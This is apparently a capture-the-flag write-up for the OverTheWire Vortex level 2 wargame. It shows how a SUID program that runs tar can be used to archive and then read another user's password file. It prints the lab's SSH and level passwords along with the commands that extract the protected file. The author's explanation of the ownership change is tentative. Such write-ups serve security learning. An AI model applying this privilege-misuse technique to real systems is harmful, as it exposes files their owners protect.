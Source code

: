 ## VORTEX2

Login to the vortex2 challenge via ssh :

```
critical@d3ad:~$ ssh vortex2@vortex.labs.overthewire.org -p 2228

                 _            
__   _____  _ __| |_ _____  __
\ \ / / _ \| '__| __/ _ \ \/ /
 \ V / (_) | |  | ||  __/>  < 
  \_/ \___/|_|   \__\___/_/\_\
                              
a http://www.overthewire.org wargame.

vortex2@vortex.labs.overthewire.org's password: 23anbT\rE
```

Source code provided :
```
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}

```

### Analysis Of Source Code

* `execv()` is invoked which replaces the parent process address space with the new process it spawns. 
* The new process it creates depends on the *args* provided to it as parameter.
*  Here, it will spawn `/bin/tar` program with `cf` flag and three parameters provided by user as command line arguments.
* The `-c` flag creates an new archive (can be file or a directory).
* The `-f` flag specifies to perform action on a *file* or *device*.
* The character `'$$'` is a *special parameter* to the shell which expands into the Process ID (PID) of the shell.

### FURTHER
Our ultimate aim to read the password file `/etc/vortex_pass/vortex3`. Lets see the permissions with which the binary is running.


```
vortex2@vortex:~$ ls -l /vortex/vortex2
-r-sr-x--- 1 vortex3 vortex2 7303 May  6 04:22 /vortex/vortex2

vortex2@vortex:~$ ls -l /etc/vortex_pass/vortex3
-r-------- 1 vortex3 vortex3 10 May  6 04:21 /etc/vortex_pass/vortex3
```

The binary runs with SUID bit set on user `vortex3`, this means that the binary will function everything with the priveleges of user `vortex3`. So far, so good. Now, Look at the permissions of `/etc/vortex_pass/vortex3` which says '`-r-------- 1 vortex3 vortex3`', i.e. read only for user `vortex3`. So, is there a way we can make the binary read the file  `/etc/vortex_pass/vortex3` ?<br>
I could'nt think of any. So tried executing the binary and analyzing the result. 

```
vortex2@vortex:~$ /vortex/vortex2 /etc/vortex_pass/vortex3 
/bin/tar: Removing leading `/' from member names

vortex2@vortex:~$ ls -l '/tmp/ownership.$$.tar'
-rw-rw-r-- 1 vortex3 vortex2 10240 May  9 12:22 /tmp/ownership.$$.tar
```
Look at the permissions carefully, its `rw` for `vortex3` user and `rw` for group `vortex2` also (group permissions). This means that `vortex2` user can also extract the archive compressed by `vortex3`. Cool... lets see what are the permissions on the files inside the archive after extracting.

```
vortex2@vortex:~$ tar -tvf  '/tmp/ownership.$$.tar'
-r-------- vortex3/vortex3  10 2019-05-06 04:21 etc/vortex_pass/vortex3

vortex2@vortex:~$ tar -xvf  '/tmp/ownership.$$.tar'
etc/vortex_pass/vortex3

vortex2@vortex:~$ ls -l ./etc/vortex_pass/vortex3 
-r-------- 1 vortex2 vortex2 10 May  6 04:21 ./etc/vortex_pass/vortex3
```

We see that, the permissions of the file (previously compressed by `vortex3` with tar) remains the same (i.e. `-r--------`), 
<br>**but note** how `owner` and the `group` are changed to `vortex2` from `vortex3`. This means that the user decompressing the file has the same permissions that the user who compressed the file had.


**REASON** : I'm not sure of it, but the file before compression was in file system and had some permissions. But the file after compression is nomore that file, its just the data encoded by tar. So, whichever user (among groups too) extracts the archive, steals its name on the place of `owner` and `group` (with same permissions as the file had when created). 

**NOTE** : We can, however change the permissions of the file by using '`--mode=MODE`' (as explained in [this] blog post) with tar but that is not necessary here.

Let's cat the password
```
vortex2@vortex:~$ cat ./etc/vortex_pass/vortex3 
64ncXTvx#

```

This is maybe a new kind of vulnerability scenario, consider a scenario, a program running with root privileges (i.e. SUID bit set) compresses a `SecretPassword` file which it does not want anyone else to see. The `owner` of the file is `root` and in the `group` field a `local`(lower privileged) user may be included. In this scenario, the lower priveleged user can see the contents of the file by extracting the file.
<br>**Since after extracting the file, the permissions remain the same, `but` the `owner` and group field changes to the user who extracted the file**.

<br>
<br?>

NAME  : **ABHINAV THAKUR** <br>
EMAIL : **compilepeace@gmail.com**


[this]: https://mcpa.github.io/vortex/wargame/web/overthewire/2015/10/22/vortex02/